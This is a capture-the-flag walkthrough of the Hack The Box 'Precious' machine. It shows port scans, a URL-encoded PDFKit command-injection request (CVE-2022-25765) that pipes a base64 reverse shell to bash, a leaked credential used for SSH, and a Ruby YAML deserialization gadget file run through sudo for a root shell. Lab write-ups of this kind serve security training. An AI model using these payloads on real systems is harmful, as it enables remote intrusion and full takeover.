

+++
title = "Precious"
date = "2023-02-20"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2022-11-26

**Created by**: [Nauten](https://app.hackthebox.com/users/27582)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.5`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.189`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Precious using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.189" -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.189" --top-ports "500"
```

```
<SNIP>
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.189" -p "22,80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Let's do the same for the UDP port.

```sh
❯ nmap -sU "10.10.11.189" -p "68" -sV
```

```
<SNIP>
PORT   STATE         SERVICE VERSION
68/udp open|filtered dhcpc
<SNIP>
```

Alright, so `nmap` managed to determine that Precious is running Linux, and the
version of SSH suggests that it might be Debian.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.189" -p "22,80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://precious.htb/
<SNIP>
```

Let's also run them on the UDP service.

```sh
❯ nmap -sU "10.10.11.189" -p "68" -sC
```

```
<SNIP>
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
<SNIP>
```

The `http-title` script indicates that the Nginx server redirects to
`http://precious.htb/`. I'll add it to my `/etc/hosts` file.

```sh
❯ echo "10.10.11.189 precious.htb" >> /etc/hosts
```

## Services enumeration

### Nginx

#### Exploration

Let's browse to `http://precious.htb/`.


It's a website to convert a web page to a PDF.

#### Fingerprinting

Let's fingerprint the technologies used by this website with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



This reveals that this website is using Phusion Passenger®. What's that?

> Phusion Passenger® is a web server and application server, designed to be
> fast, robust and lightweight. It takes a lot of complexity out of deploying
> web apps, adds powerful enterprise-grade features that are useful in
> production, and makes administration much easier and less complex.
>
> — [GitHub](https://github.com/phusion/passenger)

If we check the HTTP headers of the response, we also find a `X-Runtime` header
suggesting that the server is using Ruby on Rails.

#### Exploration

We can enter a URL to fetch. I'll start by entering a random URL.


It detects that the URL is invalid. But what if I enter a URL that doesn't
exist?


After a while, we get a message saying that it failed to load the web page.

If I enter a valid URL, it works great.

#### Under the hood

If we check the previous requests using Burp Suite, we notice that when we press
the 'Submit' button to submit the form, a POST message is sent to `/` with the
data:

```html
url=<URL>
```

If we check the response for a request containing a valid URL, we see that it's
mostly gibberish. However, we find a line indicating that this PDF was has been
generated using PDFKit version `0.8.6`.

> PDFKit is a PDF document generation library for Node and the browser that
> makes creating complex, multi-page, printable documents easy. The API embraces
> chainability, and includes both low level functions as well as abstractions
> for higher level functionality. The PDFKit API is designed to be simple, so
> generating complex documents is often as simple as a few function calls.
>
> — [GitHub](https://github.com/foliojs/pdfkit)

Note that if we use `exiftool` on the PDF we obtained by entering a valid URL,
we get the same information:

```sh
❯ exiftool "/workspace/generated_pdf.pdf"
```

```
<SNIP>
Creator                         : Generated by pdfkit v0.8.6
```

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for `PDFKit`, we find
[pdfkit v0.8.7.2 - Command Injection](https://www.exploit-db.com/exploits/51293)
([CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)).

## Foothold ([CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765))

[CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765) is a
vulnerability affecting PDFKit versions prior to `0.8.7.2`. Due to improper user
input sanitization, an attacker can craft a special URL to get RCE.

### Preparation

The goal is to exploit this RCE to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Let's exploit the PDFKit vulnerability to execute our payload.

```sh
❯ curl -s -o "/dev/null" "http://precious.htb/" -X "POST" -d "url=http%3A%2F%2F%2520%60%2Fbin%2Fecho%20$BASE64_REVSHELL_PAYLOAD%20%7C%20%2Fusr%2Fbin%2Fbase64%20-d%20%7C%20%2Fbin%2Fbash%20-i%60"
```

If we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.189] 42088
<SNIP>
ruby@precious:/var/www/pdfapp$
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.
Finally I'll connect over SSH to Precious. This way, I'll have a much more
stable shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `ruby`.

### Architecture

What is Precious's architecture?

```sh
ruby@precious:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Precious is using.

```sh
ruby@precious:~$ cat "/etc/os-release"
```

```
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

Okay, so it's Debian 11.

### Kernel

Let's find the kernel version of Precious.

```sh
ruby@precious:~$ uname -r
```

```
5.10.0-19-amd64
```

It's `5.10.0`.

### Users

Let's enumerate all users.

```sh
ruby@precious:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
henry
root
ruby
```

There's `henry`, `root` and `ruby` (us).

### Groups

Let's enumerate all groups.

```sh
ruby@precious:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
games
gnats
henry
input
irc
kmem
kvm
_laurel
list
lp
mail
man
messagebus
netdev
news
nogroup
operator
plugdev
proxy
render
root
ruby
sasl
shadow
src
ssh
staff
sudo
sys
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tty
users
utmp
uucp
video
voice
www-data
```

### NICs

Let's gather the list of connected NICs.

```sh
ruby@precious:~$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:8d:32 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.189/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Precious's hostname?

```sh
ruby@precious:~$ hostname
```

```
precious
```

Yeah I know, very surprising.

## System enumeration

### Website code review

Let's review the content of the Apache website, located at `/var/www/pdfapp`.

```rb
class PdfControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    erb :'index'
  end

  post '/' do
    url = ERB.new(params[:url]).result(binding)
    if url =~ /^https?:\/\//i
      filename = Array.new(32){rand(36).to_s(36)}.join + '.pdf'
      path = 'pdf/' + filename

      begin
           PDFKit.new(url).to_file(path)
          cmd = `exiftool -overwrite_original -all= -creator="Generated by pdfkit v0.8.6" -xmptoolkit= #{path}`
          send_file path, :disposition => 'attachment'
      rescue
           @msg = 'Cannot load remote URL!'
      end

    else
        @msg = 'You should provide a valid URL!'
    end
    erb :'index'
  end
end
```

The `pdf.rb` file in `app/controllers` is the most interesting file. It contains
the logic for retrieving the POST `url` parameter, checking if it's valid using
a regex, using PDFKit to create a PDF from a web page and editing the metadata
of the PDF using `exiftool` to indicate that it was generated using PDFKit
version `0.8.6`.

### Home folders

If we check our home folder, we find a `config` file in `.bundle`.

> Bundler provides a consistent environment for Ruby projects by tracking and
> installing the exact gems and versions that are needed.
>
> — [Bundler](https://bundler.io/)

This file should contain configuration for this dependency management tool.
Let's see what it contains:

```
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

The `BUNDLE_HTTPS://RUBYGEMS__ORG/` directive specifies the source from which
Bundler should fetch gems. In this case, it indicates that Bundler should use
the RubyGems as the source for downloading and installing gems, using the
credentials `henry`:`Q3c1AqGHtoI0aXAYFH`.

## Lateral movement (SSH)

Let's use the credentials we just found to move laterally:

```sh
❯ ssh "henry@10.10.11.189"
```

```
henry@precious:~$
```

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
henry@precious:~$ cat "/home/henry/user.txt"
```

```
51a4c9f67b818c7e7e12e23cef5b91e4
```

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
henry@precious:~$ sudo -l
```

```
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

We can execute the `update_dependencies.rb` script in `/opt` using the
`/usr/bin/ruby` binary.

### Inspecting `/opt/update_dependencies.rb`

Let's inspect this file.

```rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

The `load` function is used for deserialization. Interestingly, it deserializes
the `dependencies.yml` located in the current directory, so we can create our
own YAML file.

This means that by crafting a custom YAML file, we could execute arbitrary
commands! And since we can execute this script as `root`, we would get `root`'s
privileges.

## Privilege escalation (Ruby deserialization)

Deserialization is a process taking data that has been structured in a specific
format, and reconstructing it back into an object. It's the opposite of
serialization.

Since we have control over the deserialized file in this script, we should be
able to execute arbitrary commands. And since we can execute this script as
`root`, we would get `root`'s privileges!

### Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9002"
```

Then, I'll select a payload from
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)
to exploit this vulnerability.

However, there's two payloads to choose from depending on the Ruby version in
use, so let's retrieve Precious's Ruby version.

```sh
henry@precious:~$ ruby -v
```

```
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

Therefore, I'll choose the one for Ruby versions after `2.7.3`.

However, we still need to come up with a payload to use with it!

I want to obtain a reverse shell, so I'll choose the Base64 encoded version of
the 'Bash -i' payload from [RevShells](https://www.revshells.com/) configured to
obtain a `/bin/bash` shell.

Then, I'll create a `dependencies.yml` file to execute this payload:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i
         method_id: :resolve
```

I'll transfer it to Precious.

### Exploitation

Let's exploit the Ruby deserialization vulnerability to execute our payload:

```sh
henry@precious:/tmp$ sudo "/usr/bin/ruby" "/opt/update_dependencies.rb"
```

If we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.189] 60456
root@precious:/tmp#
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.

It won't be enough to connect over SSH to Precious though, since the
`/etc/ssh/sshd_config` has the line `PermitRootLogin no`. I'll set it to `yes`,
and I'll restart the SSH service.

Finally, I'll connect over SSH to Precious. I have a much more stable shell now!

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@precious:~# cat "/root/root.txt"
```

```
827807d318ec9d8941ea005dcd767bdf
```

# Afterwords


That's it for this box! 🎉

I rated both the user and root flags as 'Easy' to obtain. The foothold was quite
easy to identify and fairly straightforward to exploit. The privilege escalation
was a bit harder to identify, since it involved first moving laterally from
`ruby` to `henry`, and then identifying a deserialization vulnerability in a
Ruby script. Thanks to PayloadAllTheThings, it was really easy to exploit
though.

Thanks for reading!
